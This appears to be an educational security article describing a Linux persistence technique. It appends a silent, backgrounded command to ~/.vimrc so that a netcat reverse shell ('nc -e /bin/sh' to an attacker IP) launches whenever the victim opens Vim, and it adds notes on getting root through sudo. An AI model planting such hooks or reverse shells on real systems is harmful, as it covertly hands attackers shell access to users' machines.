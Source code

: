 # Backdoor Via Vim
* * *

The VIM editor needs no introduction; it is a well-known and widely used command-line text editor that comes pre-installed on most Unix and Linux operating systems. In many Linux setups, user-specific VIM configuration settings are stored in the user's home directory within the `~/.vimrc` file. This file, which is automatically loaded when Vim starts, accepts VIM-specific scripting commands that are usually used to enable users to tailor their editing environment to their preferences.

This interesting setup presents an opportunity for attackers. By manipulating the `.vimrc` file, one can execute unintended actions during a user's VIM session without the user's knowledge or permission, especially if VIM operates within an unrestricted environment.

To get a feel for that, let's experiment. To execute a command within the VIM environment, you need to precede any shell command with a colon and an exclamation mark. Execute the following command within VIM to get the user ID (or username):
```sh
:!echo $UID
# OR
:!echo $USER
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/UID.png)

You see, once you hit enter, the user ID is printed on the screen. This is because VIM has access to the shell environment's variables.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/1000.png)

Great, let's get back to the `.vimrc` file. We can inject any commands into the `.vimrc` file, and once the current user starts Vim, these commands are executed in the background. One particularly interesting command is the source command, used to execute commands from a script file in the current shell session.

We can illustrate this with an example scenario: suppose an attacker, using a Kali Linux machine, gains access to a victim machine running Ubuntu. The attacker wants to establish a backdoor on the victim machine, such as creating a netcat reverse shell connection to the attacker's machine.

First, on the victim machine, the attacker creates or modifies the `.vimrc` file by appending the following line:

```sh
echo ':silent !source /home/msbit/Labs/vimHacking/ncReverseSh.sh &' >> ~/.vimrc
```

Let's analyze this command: Firstly, the `:silent` suppresses any debug output that would typically be displayed to the user when Vim runs. Then, the `source` command, preceded by an exclamation mark to indicate that this is a shell command, loads and executes the script ncReverseSh.sh, followed by the `&` to execute the command in the background."

Now, the attacker need to populate the script `ncReverseSh.sh` with the payload:

```sh
#!/bin/bash
nc -e /bin/sh 192.168.171.1 7777 &
```

This is a simple script that invokes the nc command with the `-e` switch, specifying the program (`/bin/sh`) to execute upon connection establishment, followed by the attacker's IP and listening port. Again, the & ensures the command runs in the background

Okay, let's give it a shot. Start a netcat listener on the attacker machine on port 7777:

```sh
nc -lnvp 7777
```

On the victim machine, when launching Vim to read any file, it will trigger the execution of the backdoor script. You can see on the attacker machine that a netcat connection has been established with the victim, and the victim did not receive any suspicious messages.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/reverseShell.png)

You should know that the reverse shell obtained doesn't necessarily grant access beyond that of the current user. However, if the victim runs VIM with sudo, the attacker might get a root shell. However, this is only half the story; it depends on the Linux distribution. For example, in systems like Ubuntu and Red Hat, VIM uses the current user's `.vimrc` configuration file even within a sudo context. Therefore, if the user invokes VIM via sudo, our sourced script will execute as root. On the other hand, in distributions like Debian, VIM defaults to the root user's configuration when invoked with sudo, without using the current user's settings.

One more thing: another idea is to check the sudo permissions granted to the current user. Sometimes, a regular user may be authorized to run only specific applications with sudo privileges:

```sh
sudo -l

(root) NOPASSWD: /usr/bin/vim /opt/whatever.conf
```

In this example, the configuration allows the root user to execute `/usr/bin/vim` on `/opt/whatever.conf` without requiring a password.

In conclusion, we have seen how an attacker can exploit a legitimate program to achieve malicious goals.

Happy Learning...


### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
